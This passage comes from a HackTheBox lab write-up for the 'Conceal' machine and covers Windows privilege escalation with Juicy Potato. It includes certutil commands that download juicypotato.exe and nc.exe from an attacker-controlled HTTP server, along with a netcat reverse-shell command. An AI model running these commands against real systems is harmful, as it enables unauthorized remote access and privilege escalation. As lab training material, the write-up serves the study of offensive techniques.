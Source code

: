 ![](/images/hackthebox/conceal/22.png)
<br> It's `Microsoft Windows 10 Enterprise`. I got the `clsid` of  `wuauserv` from [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise) which is : `{e60687f7-01a1-40aa-86ac-db1cbf673334}`
<br> I got a compiled binary of `Juicy Potato` from the github repository. I hosted it on a python simple http server then I downloaded it on the machine with `certutil` :
`certutil -urlcache -split -f http://10.10.xx.xx/juicypotato.exe juicypotato.exe`
![](/images/hackthebox/conceal/23.png)
<br> However I had some problems with my powershell reverse shell and it couldn't run `juicypotato.exe` properly so I got another `cmd` shell with `nc` :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
<br>
<br>
`nc.exe -e cmd.exe 10.10.xx.xx 1339`
![](/images/hackthebox/conceal/24.png)
<br>
<br>